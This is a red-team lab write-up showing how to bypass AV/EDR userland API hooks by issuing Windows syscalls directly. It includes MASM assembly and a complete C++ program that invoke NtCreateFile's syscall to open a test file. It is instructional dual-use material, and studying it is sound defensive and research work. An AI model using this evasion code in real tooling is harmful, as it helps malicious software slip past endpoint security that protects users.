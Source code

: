 # Calling Syscalls Directly from Visual Studio to Bypass AVs/EDRs

AVs/EDR solutions usually hook userland Windows APIs in order to decide if the code that is being executed is malicious or not. It's possible to bypass hooked functions by writing your own functions that call syscalls directly.

For a more detailed explanation of the above, read a great research done by [@Cn33liz](https://twitter.com/Cneelis) from [@Outflank](https://twitter.com/OutflankNL): [https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/) - now you know what inspired me to do this lab.

With this lab, I wanted to follow along what Cn33liz did and go through the process of incorporating and compiling ASM code from the Visual Studio and simply invoking one syscall to see how it's all done by myself. In this case, I will be playing with `NtCreateFile` syscall as this will be enough to prove the concept.

Also, see my previous labs about API hooking/unhooking: [Windows API Hooking](../code-injection-process-injection/how-to-hook-windows-api-using-c++.md), [Bypassing Cylance and other AVs/EDRs by Unhooking Windows APIs](bypassing-cylance-and-other-avs-edrs-by-unhooking-windows-apis.md)

## Setting Up Project Environment

Add a new file to the project, say `syscalls.asm` - make sure the main cpp file has a different name as the project will not compile:

![](<../../.gitbook/assets/image (3).png>)

Navigate to project's `Build Customizations`:

![](<../../.gitbook/assets/image (7).png>)

Enable `masm`:

![](<../../.gitbook/assets/image (5).png>)

Configure the `syscalls.asm` file to be part of the project and compiled using Microsoft Macro Assembler:

![](<../../.gitbook/assets/image (8).png>)

## Defining Syscalls

In the `syscalls.asm`, let's define a procedure `SysNtCreateFile` with a syscall number 55 that is reserved for `NtCreateFile` in [Windows 10](https://j00ru.vexillium.org/syscalls/nt/64/):

{% code title="syscalls.asm" %}
```csharp
.code
	SysNtCreateFile proc
			mov r10, rcx
			mov eax, 55h
			syscall
			ret
	SysNtCreateFile endp
end
```
{% endcode %}

The way we can find the procedure's prologue (mov r10, rcx, etc..) is by disassembling the function `NtCreateFile` (assuming it's not hooked. If hooked, just do the same for, say `NtWriteFile`) using WinDbg found in `ntdll.dll` module or within Visual Studio by resolving the function's address and viewing its disassembly there:

```cpp
FARPROC addr = GetProcAddress(LoadLibraryA("ntdll"), "NtCreateFile");
```

![](<../../.gitbook/assets/image (9).png>)

Disassembling the address of the `NtCreateFile` in `ntdll` - note the highlighted instructions and we can skip the `test` / `jne` instructions at this point as they are irrelevant for this exercise:

![](<../../.gitbook/assets/image (10).png>)

## Declaring the Calling C Function

Once we have the `SysNtCreateFile` procedure defined in assembly, we need to define the C function prototype that will call that assembly procedure. The `NtCreateFile` prototype per [MSDN](https://docs.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntcreatefile) is:

```cpp
// Using the NtCreateFile prototype to define a prototype for SysNtCreateFile. 
// The prorotype name needs to match the procedure name defined in the syscalls.asm
// EXTERN_C tells the compiler to link this function as a C function and use stdcall 
// calling convention - Important!

EXTERN_C NTSTATUS SysNtCreateFile(
	PHANDLE FileHandle, 
	ACCESS_MASK DesiredAccess, 
	POBJECT_ATTRIBUTES ObjectAttributes, 
	PIO_STATUS_BLOCK IoStatusBlock, 
	PLARGE_INTEGER AllocationSize, 
	ULONG FileAttributes, 
	ULONG ShareAccess, 
	ULONG CreateDisposition, 
	ULONG CreateOptions, 
	PVOID EaBuffer, 
	ULONG EaLength
);
```

Once we have the prototype, we can compile the code and check if the `SysNtCreateFile` function can now be found in the process memory by entering the function's name in Visual Studio disassembly panel:

![](<../../.gitbook/assets/image (11).png>)

The above indicates that assembly instructions were compiled into the binary successfully and once executed, they will issue a syscall `0x55` that is normally called by `NtCreateFile` from within ntdll.

## Initializing Variables and Structures

Before testing `SysNtCreateFile`, we need to initialize some structures and variables (like the name of the file name to be opened, access requirements, etc.) required by the `NtCreateFile`:

![](<../../.gitbook/assets/image (12).png>)

## Invoking the Syscall

Once the variables and structures are initialized, we are ready to invoke the `SysNtCreateFile`:

```cpp
SysNtCreateFile(
	&fileHandle, 
	FILE_GENERIC_WRITE, 
	&oa, 
	&osb, 
	0, 
	FILE_ATTRIBUTE_NORMAL, 
	FILE_SHARE_WRITE, 
	FILE_OVERWRITE_IF, 
	FILE_SYNCHRONOUS_IO_NONALERT, 
	NULL, 
	0
);
```

If we go into debug mode, we can see that all the arguments required by the `SysNtCreateFile` are being pushed on to the stack - as seen on the right disassembler panel where the break point on `SysNtCreateFile` is set:

![](<../../.gitbook/assets/image (13).png>)

If we continue debugging, the debugger eventually steps in to our assembly code that defines the `SysNtCreateFile` procedure and issues the syscall for `NtCreateFile`. Once the syscall finishes executing, a handle to the opened file `c:\temp\test.txt` is returned to the variable `fileHandle`:

![](../../.gitbook/assets/syscall-debugging.gif)

## So What?

What this all means is that if an AV/EDR product had hooked `NtCreateFile` API call, and was blocking any access to the file c:\temp\test.txt as part of the hooked routine, we would have bypassed that restriction since we did not call the `NtCreateFile` API, but called its syscall directly instead by invoking `SysNtCreateFile` - the AV/EDR would not have intercepted our attempt to open the file and we would have opened it successfully.

## Code

{% code title="syscalls.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include "winternl.h"
#pragma comment(lib, "ntdll")

EXTERN_C NTSTATUS SysNtCreateFile(
	PHANDLE FileHandle, 
	ACCESS_MASK DesiredAccess, 
	POBJECT_ATTRIBUTES ObjectAttributes, 
	PIO_STATUS_BLOCK IoStatusBlock, 
	PLARGE_INTEGER AllocationSize, 
	ULONG FileAttributes, 
	ULONG ShareAccess, 
	ULONG CreateDisposition, 
	ULONG CreateOptions, 
	PVOID EaBuffer, 
	ULONG EaLength);

int main()
{
	FARPROC addr = GetProcAddress(LoadLibraryA("ntdll"), "NtCreateFile");
	
	OBJECT_ATTRIBUTES oa;
	HANDLE fileHandle = NULL;
	NTSTATUS status = NULL;
	UNICODE_STRING fileName;
	IO_STATUS_BLOCK osb;

	RtlInitUnicodeString(&fileName, (PCWSTR)L"\\??\\c:\\temp\\test.txt");
	ZeroMemory(&osb, sizeof(IO_STATUS_BLOCK));
	InitializeObjectAttributes(&oa, &fileName, OBJ_CASE_INSENSITIVE, NULL, NULL);

	SysNtCreateFile(
		&fileHandle, 
		FILE_GENERIC_WRITE, 
		&oa, 
		&osb, 
		0, 
		FILE_ATTRIBUTE_NORMAL, 
		FILE_SHARE_WRITE, 
		FILE_OVERWRITE_IF, 
		FILE_SYNCHRONOUS_IO_NONALERT, 
		NULL, 
		0);

	return 0;
}
```
{% endcode %}

## References

{% embed url="https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntcreatefile" %}

{% embed url="https://j00ru.vexillium.org/syscalls/nt/64/" %}

